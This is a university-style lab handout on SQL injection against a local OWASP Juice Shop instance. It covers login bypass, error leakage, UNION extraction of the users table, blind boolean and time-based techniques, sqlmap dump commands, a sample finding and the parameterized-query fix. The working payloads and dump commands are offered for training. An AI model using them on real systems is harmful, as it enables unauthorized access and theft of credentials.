

Lab 03: SQL Injection
Last week you learned to put anything you want on the wire. Today you send the one thing the developer really didn't want: database logic. You'll walk into an admin account with no password, make the app spill a database error, then pull the whole user table out through the search bar.
👯 Pair up. One person types, the other reads the steps out loud. Swap every 15 min.
A03: Injection
T1190
Web App Hacking
eJPT · BSCP
0. Where We Are, and the Process We Follow
Last week you learned the tools. This week you use them on your first real vulnerability class. From here on, every web lab follows the same five-step process so it turns into a habit, not a one-off trick.
🟢 Baseline is the guided win. Everyone finishes it. 🟡 Stretch takes the training wheels off. 🔴 Going Pro is career-grade depth for anyone flying. If Baseline feels easy, skip ahead. Nobody's stuck waiting.
SQL injection isn't a Burp feature. It's text on the wire. We'll start in the browser's own DevTools (no install) to prove that, then move to Burp only when the job actually calls for it. Pick the tool the job needs, not the one you're used to.
1 · DevTools
already in your browser- Jobs: the login bypass, then break the search and read the leaked error.
- Every browser ships a free proxy. Zero install, and you watch the real request leave.
2 · Burp
built to iterate- Job: count columns, then dump the table.
- When you send one request 10 times with one number changed, this is why Burp exists.
1. SQL in Five Minutes · foundation
A database is a stack of tables. A table is rows and columns, like a spreadsheet. You talk to it with SQL, and 90% of what an attacker needs is one sentence: SELECT columns FROM table WHERE condition.
SELECT * FROM users
WHERE email = 'a@b.com'
OR 1=1
--
UNION SELECT …
'
Now meet UNION, the one you'll lean on later
UNION takes a second SELECT and stacks its rows right under the first, so one request hands you both. Later today that's how you make a product search cough up the users table. Read it slowly, it's the engine of §5.
Query A · what the app already runs
3 columnsSELECT id, name, major
FROM students| id | name | major |
|---|---|---|
| 1 | Mariam | CS |
| 2 | Youssef | IS |
Query B · what you bolt on
3 columnsUNION SELECT 'x', email, password
FROM users| col 1 | col 2 | col 3 |
|---|---|---|
| x | admin@juice-sh.op | 0192023a… |
| id | name | major |
|---|---|---|
| 1 | Mariam | CS |
| 2 | Youssef | IS |
| x | admin@juice-sh.op | 0192023a… |
The highlighted row isn't a student. It's a user record riding back in the students' clothes. Swap students for a product search and users for the real table, and that's the §5 attack exactly.
✅ Rule 1 · column counts must match
Both SELECTs have to return the same number of columns, or the database refuses the whole query and you get nothing. That's the entire reason you count columns before you extract.
✅ Rule 2 · types have to be compatible
Column 2 meets column 2, column 3 meets column 3, and each pair has to be type-compatible. Strict databases (Postgres, SQL Server) reject a string stacked on a number. SQLite, which Juice Shop uses, is loose about it, which is exactly why a string email can ride back in the integer id column.
Don't know the types? Use NULL as the placeholder, it's compatible with every type, so UNION SELECT NULL,NULL,NULL-- finds the column count without a type error. Then swap a string into each slot to see which ones print.
2. Walk In Without a Password · exploit · tool 1: browser + DevTools
OWASP Juice Shop
docker run --rm -d --name juice -p 3000:3000 bkimminich/juice-shop- Juice Shop → top-right Account → Login.
- In the Email field type
' OR 1=1-- - Put anything in Password. It won't be checked, your payload deletes the password check before the database ever reads it.
- Click Log in. You're in, and the top bar shows you're the administrator.
Peek under the hood: press F12 → Network tab, then log in again. You'll see a POST /rest/user/login go out with your payload sitting in the JSON body, and a 200 come back carrying a token (a JWT) and "umail":"admin@juice-sh.op". That token is the admin session. The form just typed the request for you.
Got a 401 / "Invalid email or password"?
Swap the email for a named user: admin@juice-sh.op'--. That closes the string and comments out the password check for one known account. If it still fails, your Juice Shop version may want a trailing space after -- (' OR 1=1-- ). Open the login request in the Network tab and read the response body, it usually tells you what it rejected.
3. Why That Worked · identify
Here's what actually happened under the hood. The app took your email and password and pasted them straight into a SQL sentence, then ran it. Because it glues strings together without cleaning your input, you got to finish the sentence for it.
✅ What the developer meant
normal login- You type:
jim@juice-sh.op/hunter2 - Query becomes:
SELECT * FROM users WHERE email='jim@juice-sh.op' AND password='hunter2' - No match unless both are right. Login denied.
💥 What you sent instead
injected- Email field:
' OR 1=1-- - Query becomes:
SELECT * FROM users WHERE email='' OR 1=1--' AND password='…' -
1=1is always true,--comments out the password check. Returns every row, and the app logs you in as row one.
4. Make the App Confess · identify · still in DevTools
Type ') into the shop's search box and watch the Network tab: the request that actually goes out is GET /rest/products/search?q= with an empty q. Your payload never reaches the database query, so nothing breaks. To probe the real query you call that search API endpoint directly in the address bar and put the payload in q yourself. That's also exactly how you'd test for real.
- Press F12 (or right-click → Inspect) and click the Network tab. Tick Preserve log so nothing scrolls away.
- In the address bar, go to
http://localhost:3000/rest/products/search?q=apple. The browser shows the raw JSON product list, and asearch?q=applerow appears in Network with status200. That's the real API the search box was supposed to call. - Change the URL to
…?q='(a lone quote). Still200, but empty, a single quote isn't enough to break this one. - Now try
…?q='). The page flips to an ugly error, and the Network row shows500. The extra)is what breaks the query for real.
HTTP/1.1 500 Internal Server Error
<title>Error: SQLITE_ERROR: near ")": syntax error</title>
...
OWASP Juice Shop (Express ^4.22.1)
500 Error: SQLITE_ERROR: near ")": syntax error
#stacktrace ...One broken request just leaked the database engine (SQLite), the framework and version (Express 4), and a stack trace. Real apps should return a boring generic 500.
The complaint about a stray ) means your input sits inside nested parentheses, so you'll need ')) to break all the way out. And there's a bonus: an out-of-range ORDER BY error on this app literally says "should be between 1 and 9", which hands you the column count for free. You'll use both in the next section.
🧩 Wait, why ')) and not just '? (the parentheses, explained)
The login was easy because its query is flat: WHERE email='INPUT' AND password='…'. One ' and you're out in the open. The search query is not flat. This is the real query Juice Shop runs, your q value drops in where INPUT is:
SELECT * FROM Products
WHERE ((name LIKE '%INPUT%' OR description LIKE '%INPUT%') AND deletedAt IS NULL)
ORDER BY nameYour INPUT is boxed inside three layers. To run your own query you have to climb out of every one, in order:
' leaves '%…%'
) leaves ( name OR description )
) leaves ( … AND deletedAt )
That's the ')). Then -- comments out the leftover %'… tail the app wrote after your input. So ')) UNION SELECT … -- turns the whole thing into a clean SELECT … UNION SELECT … and your query runs.
Why feel it out one step at a time? On a real target you can't read the source like we just did, so the errors are your map:
| You send | What happens in the query | Result |
|---|---|---|
' | closes the string, but the app's own )) still balances the brackets — odd but valid SQL, matches nothing | 200 empty |
') | string + one bracket closed, but a second ) is still open → brackets don't balance | 500 near ")" |
')) | all brackets closed, but the leftover %'… tail is now dangling junk | 500 |
')) + -- | out of all three layers, tail commented away | 200, clean ✓ |
Same quote-closes-the-string idea as the login. The search just wraps it in brackets, so the escape is longer. Different query shape, different breakout, and you learn the shape from the errors.
5. Pull the User Table Out · exploit · tool 2: Burp Repeater
Now the job changes shape. You're about to send the same request over and over with one number nudged each time (ORDER BY 1, 2, 3…), then hand-craft a long payload. That's clumsy to redo in DevTools, and it's exactly the repetition Burp's Repeater was built for. This is the tool earning its keep, not a habit.
With Juice Shop proxied through Burp (same setup as Lab 02), do one search so a GET /rest/products/search?q=apple lands in Proxy → HTTP history. Right-click it → Send to Repeater. From here you type payloads raw in the request pane, no URL-encoding needed, and hit Send as many times as you like.
All of this happens in one Repeater tab on the search?q= request. Change the value, Send, read the response, repeat.
apple')) ORDER BY 10--
x')) UNION SELECT email,password,'3','4','5','6','7','8','9' FROM Users--
What success looks like: the response is a list of "products" where the id field holds a real email like admin@juice-sh.op and the name field holds a long hex string (the password hash). Your data came back wearing a product's clothes.
Exact column count and names depend on your Juice Shop version
Newer builds shift the Products column count and the Users column names around. That's not a bug in the lab, that's the real job: you find the count with ORDER BY, and if UNION SELECT email,password,... throws a type error, swap columns until the text ones line up. Working it out live is the skill. The number you land on is the right number.

id field and their MD5 hash in name. You just dumped the whole user table through a search box.
0192023a7bbd7325..., not the actual password. Why, and is that a dead end?6. Going Pro: Blind SQLi and Automation · exploit
Everything so far showed you the data. In the real world the app usually shows you nothing, and you still have to win. That's blind SQLi. Then you learn to automate the grind.
👁️ Direct
you SEE the data- Error-based: the app prints the query or the data.
- UNION-based: results come back in the response.
- Fast and obvious. Also the first thing developers fix.
🕶️ Blind
you INFER the data- Boolean: the page changes for true vs false, so you ask yes/no questions one bit at a time.
- Time-based:
' OR SLEEP(5)--. If the reply is slow, the answer is yes. - Slow by hand. This is exactly what tools were built for.
Blind, in plain terms: it's 20 questions
The database still knows the answer. The app just won't print it. So instead of asking "what's the password?" (you'd never see the reply), you ask questions it can only answer yes or no, and you watch the one thing you can see. Let's pull the admin's password hash out of the same search box you've been using, without the search ever showing it to you.
Step 1, find a yes/no you can see. The search gives you two states you can tell apart: products come back, or nothing does. Leave the term empty (so LIKE '%' matches everything) and bolt a condition on the end. Flip the condition and the products appear or vanish on command:
?q=')) AND 1=1-- → 56 products (TRUE)
?q=')) AND 1=2-- → 0 products (FALSE)Step 2, replace the condition with a question about the password. You can't read the admin hash, but you can ask whether its first character is above or below a guess. Products back = yes, none = no:
?q=')) AND UNICODE((SELECT SUBSTR(password,1,1) FROM Users WHERE id=1)) > 79 --
Here's the real trick: every character is a number, its ASCII code. UNICODE(...) gives you that code, and printable characters run 32 to 126. So you're not guessing letters, you're binary-searching a number: start in the middle of 32–126, and each yes/no cuts the range in half. (The admin hash's first char is 0, which is code 48.)
| Is the code > … | Products? | Range still possible |
|---|---|---|
79 (middle of 32–126) | 0 · no | 32–79 |
55 (middle of 32–79) | 0 · no | 32–55 |
43 | 56 · yes | 44–55 |
49 | 0 · no | 44–49 |
46 | 56 · yes | 47–49 |
48 | 0 · no | 47–48 |
47 | 56 · yes | 48 → code is 48 = '0' ✓ |
Seven yes/no questions pin one character exactly, because halving ~95 printable codes takes about log₂(95) ≈ 7 steps. That's what "binary search" buys you: 7 questions instead of asking about all 95 characters one by one. Then bump the position to SUBSTR(password,2,1) and do the next character, until the whole hash is spelled out, and the page never printed a single byte of it.
(These are the real row counts from Juice Shop. SQLite accepts both SUBSTR and SUBSTRING, and UNICODE() for the code; other engines use ASCII() / ORD(). All row counts verified live.)
Sometimes the page looks identical no matter what, nothing to watch at all. So you give "true" a tell the server can't hide: a deliberate delay. Same question, but the answer is in how long the reply takes.
... AND (CASE WHEN SUBSTR(password,1,1)='0' THEN [wait 5 seconds] ELSE 0 END)--- Reply snaps back in ~0.1s → guess was wrong.
- Reply takes 5 seconds → guess was right.
The [wait] depends on the engine: MySQL SLEEP(5), Postgres pg_sleep(5), SQL Server WAITFOR DELAY '0:0:5'. SQLite has no sleep function, so you can't demo this one on Juice Shop, it's for the other engines (and PortSwigger's blind labs below). The logic is identical to boolean, the clock is just the only thing leaking.
One request buys you one yes/no, basically one bit of information. A 20-character password is roughly 20 × 7 ≈ 140 requests, and that's for a single value. Now multiply by every user and every column you want. Nobody does this by hand past proving it works. This exact loop, guess, send, check the page or the clock, narrow, is what sqlmap automates in the next section.
📻 One more term: in-band vs out-of-band
This is about which channel the answer comes back on.
- In-band: the answer rides the same HTTP response you're already reading, whether that's the body (error, UNION, boolean) or just its timing (time-based). Everything in this lab is in-band.
- Out-of-band: the response tells you nothing, so you force the database to reach out over a different channel, like a DNS or HTTP callback to a server you control, and read the data there.
So it's a separate question from "do I see or infer the data". A blind attack is still in-band as long as you're reading the same response. Out-of-band is the rare fallback for when even timing gives you nothing.
PortSwigger: the SQLi ladder
6.1 sqlmap: automate the grind
You did UNION by hand so you know what the tool is doing. Now let it do the boring part. sqlmap detects the injection, counts columns, and dumps tables for you, including the blind cases you'd never grind out manually.
If sqlmap is the first thing you learn, it becomes a magic button you can't explain in an interview. You just did it by hand, so when the tool says "UNION query, 9 columns", you know exactly what that means. That's the difference between running a tool and understanding one.
# detect + list databases
sqlmap -u "http://localhost:3000/rest/products/search?q=apple" --batch --dbs
# dump the Users table once it's found
sqlmap -u "http://localhost:3000/rest/products/search?q=apple" --batch -T Users --dumpsqlmap says "not injectable" but you cracked it by hand?
The search sink sits inside ')), which sqlmap's default probes don't always guess. Give it a nudge: add --prefix="'))" --suffix="--" and bump --level=3 --risk=2. This is the everyday reality of automation: the tool is fast, but you're the one who knows the shape of the query. That knowledge came from doing it by hand first.
DVWA (Damn Vulnerable Web App) has a SQLi page with Low / Medium / High security levels, so you can watch the same payload get blocked and then rebuild it to slip past a filter. Totally optional, and a great weekend rabbit hole.
7. Write the Finding · document
A shell nobody wrote down never happened. The report is what the client pays for, so every lab from now on ends by turning one thing you found into a proper finding. Fill this out for the SQLi you just landed.
| Title | SQL injection in /rest/products/search (q parameter) and login |
| Severity | Critical · CVSS 9.8 (network, no auth, no user action, full data read) |
| Affected endpoint | GET /rest/products/search?q= and POST /rest/user/login |
| Steps to reproduce | 1. Send q=') → server returns a SQL error that leaks the engine and a stack trace. 2. Count columns with ORDER BY (out-of-range error confirms 9). 3. UNION SELECT the Users table → every email and password hash returns in the response. |
| Impact | Full read of the user table (emails + password hashes), and authentication bypass to any account including admin. Complete account takeover. |
| Remediation | Use parameterized queries / prepared statements. Never build SQL by string concatenation. Add least-privilege DB accounts and generic error pages. |
CVSS looks scary but it's just a scoring form. You'll fill one properly in Week 9. For now, "no login needed + reads the whole database" is why this is a 9.8.
The one-line fix, side by side
💥 Vulnerable
string concat// input pasted straight in
const q =
"SELECT * FROM users WHERE email='"
+ email + "' AND password='"
+ pass + "'";
db.run(q);✅ Fixed
parameterized// input stays DATA, never code
const q =
"SELECT * FROM users WHERE "
+ "email=? AND password=?";
db.run(q, [email, pass]);
The ? placeholders are the whole fix. The database treats whatever you pass as data, so a ' is just a quote character in a string, not the end of one. Same idea in every language: prepared statements in Java, %s params in Python, parameter binding in PHP PDO.
Lab 03 Self-Assessment · 7 questions
🖐️ DO #7' OR 1=1--, what job is the -- doing?
UNION SELECT keeps failing until you get the column count right. Why does the count matter?
SLEEP(5) makes the response take 5 seconds. What kind of SQLi is this?
sqlmap command that targets the Juice Shop search URL and dumps the Users table.